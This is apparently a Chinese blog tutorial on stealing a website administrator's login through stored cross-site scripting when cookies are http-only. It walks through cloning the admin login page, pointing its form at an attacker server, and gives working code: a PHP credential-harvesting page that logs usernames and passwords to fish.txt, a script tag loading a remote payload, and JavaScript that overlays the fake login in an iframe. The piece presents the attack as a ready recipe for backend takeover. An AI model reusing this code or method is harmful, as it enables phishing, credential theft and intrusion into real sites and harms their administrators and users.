


XSS钓鱼获取后台账号密码
前几天在测试某个网站的时候，发现存在存储型跨站脚本漏洞，但是cookie被设置了http-only属性，导致无法获取到cookie的内容，有用的信息只是能够知道后台的地址，重要的cookie被保护起来了，获得的信息并没有Sessionid，也没有授权key,更没有账号和密码，于是把思路转向钓鱼，访问后台，查看源代码。
使用钓鱼的方式获取网站后台账号密码
伪造后台登录界面
查看后台源代码，在本地保存为html文件，并且整理网站链接的路径，将原来的相对路径补充为完整的绝对路径（注意，网站的绝对路径需要是目标网站的域名）：

这样，我们就在本地伪造了一个一模一样的后台登录界面。
修改源代码中的POST数据包的提交地址
伪造好后台页面之后，还需要数据包的提交地址。找到源代码中的form表单，修改action选项的值为我们自己服务器的页面地址，这个页面用来接收管理员提交的账号密码。

编写账号密码接收页面1
2
3
4
5
6
7
8
9
10
11<?php
$a = $_POST['userName'];
$b = $_POST['password'];
$file = fopen("fish.txt","a+");
fwrite($file,$a);
fwrite($file,' ');
fwrite($file,$b);
fwrite($file,' ');
fclose($file);
header('Location: http://xxx/main');
?>
该段代码会接收POST参数userName和password（注意，这样个参数的名字需要从后台页面的表单中获得），并且将接收到的内容以追加的方式写入到当前目录中的fish.txt文件中，同时，将页面定位到
http://xxx/main
这样做是为了，在调取管理员的账号密码之后，将管理员重定向到他自己网站的后台(因为管理员之前已经登录过自己的后台，重新定向到原网站的登录页面，会直接进入到后台首页)。
构建XSS语句
构建如下语句：1
<script src=http://www.xxx.com/xxx/1.js></script>
将语句插入到之前能够打XSS的地方。(如果链接太长，可以使用短链接生成器将链接缩短)
1.js内容如下：1
2
3document.body.innerHTML=('<div style="width:100%;height:100%">
<iframe src=http://www.xxx.com/xxx/main.html width=100% height=1000px scrolling=no frameborder=0>
</iframe></div>');
iframe元素会创建包含另外一个文档的内联框架，也就是说如果我们在网页中添加了一个iframe元素，src一个需要内联的网址，然后src的网页就会加载在当前网站，这样当我们的xss代码被触发的时候，网站就会内嵌一个我们伪造的一毛一样的钓鱼页面在管理员的浏览器上，管理员可能就以为自己退出了系统，然后重新输入用户名和密码，这样密码就会发送到我们的服务器上，我们就可以利用用户名和密码进行登录了，然后就可以进入后台为所欲为了。